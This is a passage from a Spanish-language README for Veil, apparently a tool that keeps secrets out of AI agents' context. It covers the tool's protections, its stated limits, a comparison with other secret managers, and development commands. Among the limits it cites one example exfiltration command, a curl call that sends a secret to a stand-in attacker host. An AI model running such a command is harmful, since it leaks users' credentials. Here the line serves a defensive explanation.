- La página local es de un solo uso, ligada a `127.0.0.1`, con CSRF, verificación de Origin/Host y defensa contra DNS rebinding, y CSP estricta; el texto que manda el modelo se pinta solo con `textContent`.
- Cada acción **nueva** (comando, petición HTTP, destino de escritura, sink, comando SSH, plan de captura) requiere un clic en una página que la muestra literal. “Recordar” se amarra a la huella exacta; cualquier cambio vuelve a preguntar.
- Respaldos, tokens de compartir y `.env` cifrados se autentican de punta a punta (AES-256-GCM, argon2id/scrypt, anti-rollback); los destinos de almacenamiento solo ven blobs opacos. Las passphrases y la contraseña maestra se escriben solo en la página local o en una TTY.

**Qué no protege** (lee el [modelo de amenazas](THREAT-MODEL.md))

- Una acción **que tú apruebas** y que envía o transforma el valor (`curl https://atacante/?k=${secret:X}`). La aprobación muestra la acción literal y advierte sobre shells y herramientas de red/codificación, pero tú decides.
- Malware o un agente con shell sin restricciones corriendo con **tu usuario del sistema**: puede leer el llavero y los archivos que Veil escribe. Restringe las herramientas del agente (ver el endurecimiento arriba) o aíslalo.
- **Un navegador que el modelo sí ve** (extensión de navegador, Playwright MCP, computer use) abriendo una página que muestra un secreto. Usa `web_capture`, que solo devuelve estado.
- Un token de compartir o una contraseña maestra que se filtra, o que olvidas (sin recuperación, por diseño); revocar un token no hace olvidar a quien ya lo leyó: rota.
- La redacción es heurística: valores muy cortos y codificaciones exóticas no se detectan. Las cadenas de JavaScript no se pueden borrar de memoria.

## Comparación con otros enfoques

Otras buenas herramientas atacan problemas cercanos; muchas veces se complementan en lugar de competir. Las descripciones se basan en la documentación pública de cada proyecto; revísala para el detalle actual.

| Enfoque | Qué resuelve bien | Dónde encaja Veil |
|---|---|---|
| **Gestores de contraseñas / 1Password** (`op run`, referencias `op://`, Connect) | Guardar y compartir secretos entre personas y equipos, políticas, rotación. 1Password ha [dicho públicamente](https://1password.com/blog/where-mcp-fits-and-where-it-doesnt) que no expondrá credenciales en crudo por MCP y prefiere inyectarlas a nombre del agente. | Veil puede usar **1Password Connect como destino**: escribes el valor en el formulario local y se guarda ahí de servidor a servidor. |
| **HashiCorp Vault / Infisical** | Almacén central con políticas de acceso, auditoría, leases y (en Vault) secretos dinámicos. | También son **destinos** (adaptadores `vault-kv2`, `infisical`). Veil agrega el paso humano de captura y la aprobación por acción cuando el agente los usa. |
| **Configuración cifrada en git** (sops, age, dotenvx) | Versionar secretos cifrados junto al código, con destinatarios del equipo y descifrado en CI. | El `.env` cifrado de Veil sigue la misma idea; la diferencia es que el agente lo edita, compara y ejecuta **sin que los valores entren a su contexto**. Detalle en [THREAT-MODEL.md §8.3](THREAT-MODEL.md#83-comparison). |
| **Proxies de inyección y brokers** para agentes (p. ej. [OneCLI](https://github.com/onecli/onecli), [BlindKey](https://github.com/leocelis/blindkey)) | El agente usa marcadores y un gateway/broker pone la credencial real cuando sale la petición; muy adecuado para llamadas frecuentes a APIs. | Se enfoca en **meter** valores (formularios, tablas, captura web, llaves SSH) y **llevarlos a su lugar** (`.env` por SSH, SQL, secretos de GitHub), cada uno con aprobación literal. Un proxy puede atender las llamadas de alto volumen en paralelo. |

## Desarrollo

```bash
pnpm install
pnpm typecheck && pnpm lint && pnpm test   # vitest: unidad, propiedades, APIs simuladas, sshd local, Postgres (docker) si hay
pnpm test:e2e                              # Playwright: formularios, aprobación, primer uso/caída al almacén, compartir, edición de .env cifrado
```

Visuales del README: `node scripts/readme-assets/make-svgs.mjs` (SVG animados e iconos) y `npx playwright test --config scripts/readme-assets/playwright.config.ts` (capturas y grabación desde la UI real; requiere ffmpeg con libwebp).

Desviaciones del diseño original (documentadas): el llavero usa los CLI del sistema en lugar de `@napi-rs/keyring`; `encrypted-file` usa AES-256-GCM + scrypt/argon2id de Node en lugar de age/libsodium; las pruebas de propiedades usan un PRNG con semilla en lugar de `fast-check`. Las tres porque había que construir sin red con las dependencias en caché, y así las dependencias de ejecución son solo el SDK de MCP y zod.

## Licencia

[MIT](LICENSE)
